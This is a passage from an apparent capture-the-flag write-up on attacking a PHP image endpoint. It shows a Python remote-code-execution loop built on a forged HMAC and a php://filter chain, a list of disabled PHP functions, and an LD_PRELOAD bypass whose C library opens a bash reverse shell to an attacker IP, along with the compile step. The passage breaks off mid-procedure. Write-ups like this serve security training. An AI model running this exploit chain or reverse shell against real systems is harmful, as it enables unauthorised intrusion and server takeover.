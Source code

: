     target_url = "http://10.10.131.204/image.php" # change the IP address
    secret_key = b"an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW"
    path = "php://filter/convert.iconv.UTF8.CSISO2022KR|...|convert.base64-decode/resource=php://temp".encode() # replace with the output of php_filter_chain_generator.py
    h = hmac.new(secret_key, path, hashlib.sha256)
    signature = h.hexdigest()
    
    while True:
        params = {
            "hash": signature,
            "path": path,
            "0": input("code> ")
        }
        resp = requests.get(target_url, params=params, timeout=5)
        text = resp.text
        print(text)

However, attempts to execute commands using system() were met with a Fatal error: Call to undefined function system(). Checking ini_get('disable_functions') (via echo ini_get('disable_functions'); through our RCE script) confirmed that system, exec, passthru, and many other command execution functions were disabled:

    exec, system, popen, proc_open, proc_nice, shell_exec, passthru, dl, pcntl_alarm, pcntl_async_signals, pcntl_errno, pcntl_exec, pcntl_fork, pcntl_get_last_error, pcntl_getpriority, pcntl_rfork, pcntl_setpriority,                 pcntl_signal_dispatch, pcntl_signal_get_handler, pcntl_signal, pcntl_sigprocmask, pcntl_sigtimedwait, pcntl_sigwaitinfo, pcntl_strerror, pcntl_unshare, pcntl_wait, pcntl_waitpid, pcntl_wexitstatus, pcntl_wifexited,               pcntl_wifsignaled, pcntl_wifstopped, pcntl_wstopsig, pcntl_wtermsig...

## Disabled Functions Bypass

We opted to bypass the disabled functions using the putenv and mail functions. This technique involves setting the LD_PRELOAD environment variable with putenv to a malicious shared library. Subsequently, calling mail (which executes sendmail) causes the preloaded library to be loaded and executed.

First, we created shell.c to execute a reverse shell command:
C

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    
    void _init() {
      unsetenv("LD_PRELOAD");
      system("bash -c \"bash -i >& /dev/tcp/10.14.101.76/443 0>&1\"");
    }

This was compiled into a shared library:
Bash

    $ gcc -fPIC -shared -o shell.so shell.c -nostartfiles

We hosted shell.so on a simple HTTP server on our attacking machine. Then, using our PHP code execution script, we downloaded it to the target's /tmp directory:
PHP
